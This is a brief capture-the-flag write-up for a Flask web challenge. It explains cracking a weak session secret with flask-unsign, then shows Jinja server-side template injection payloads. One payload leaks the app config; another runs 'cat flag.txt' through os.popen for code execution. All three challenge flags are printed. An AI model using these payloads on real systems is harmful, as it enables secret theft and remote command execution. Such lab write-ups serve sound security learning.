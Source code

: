 part 1: 

we see a very suspicious line

```py
app.secret_key = keyword.kwlist[random.randint(1,len(keyword.kwlist))]  # hm??
```

the wordlist is rather small, so we can use flask-unsign to crack the secret
flag 1: deadbeef{Br0_fr_v1s1t3D_h1s_h0uS3}

part 2:

we see another very suspicious line

```py
app.config["FLAG"] = "deadbeef{br0_k33p5_s3cr3t5_1n_c0nf1g}"
```

we gotta find a way to access ```config["FLAG"]```, but how?

on line 44: <p>{vibe}pilled {vibe}maxxer</p>

this is under ```render_template_string(f""" ``` (line 35), which is vulnerable to SSTI

we can simply send the payload ```{{ config["FLAG"] }} to get the flag

flag 2: deadbeef{br0_k33p5_s3cr3t5_1n_c0nf1g}

part 3:

we notice that flag.txt lives in the same directory as app.py, and if only there was a way to read it, we can get it

turns out, by using the same SSTI exploitation from part 2, we can run commands

send the payload ```{{ cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}``` to get the flag

flag 3: deadbeef{br0_1nj3ct3d_h1s_t3mpl4t3_s3rv3r_s1d3}

note: i hope no one deleted flag.txt
